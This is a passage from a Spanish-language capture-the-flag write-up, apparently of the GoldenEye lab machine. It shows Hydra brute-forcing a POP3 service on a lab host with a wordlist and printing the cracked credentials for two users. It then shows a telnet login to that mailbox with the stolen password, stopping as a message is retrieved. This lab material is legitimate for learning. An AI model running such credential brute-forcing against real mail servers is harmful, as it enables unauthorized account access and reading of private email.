 
### POP3 - 55007

Teniendo los usuarios, vamos a proceder a utilizar `hydra` para fuerza bruta sobre `POP3`.

```bash
❯ hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f 10.11.12.21 -s 55007 pop3
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 23:13:55
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.11.12.21:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.11.12.21   login: boris   password: secret1!
[STATUS] attack finished for 10.11.12.21 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 23:16:28

❯ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f 10.11.12.21 -s 55007 pop3
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 23:19:14
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.11.12.21:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 10.11.12.21   login: natalya   password: bird
[STATUS] attack finished for 10.11.12.21 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 23:21:09
```

Tenemos:
- Usuario boris : secret1!
- Usuario natalya : bird

[**Lista de comandos pop3**](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/)

Nos logueamos por telnet y luego netcat (para tener dos maneras distintas de conectarnos) al puerto pop3 (55007) con las credenciales obtenidas, listamos los mails pendientes de cada usuario.

Usuario Boris.

```bash
Trying 10.11.12.21...
Connected to 10.11.12.21.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
list
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
```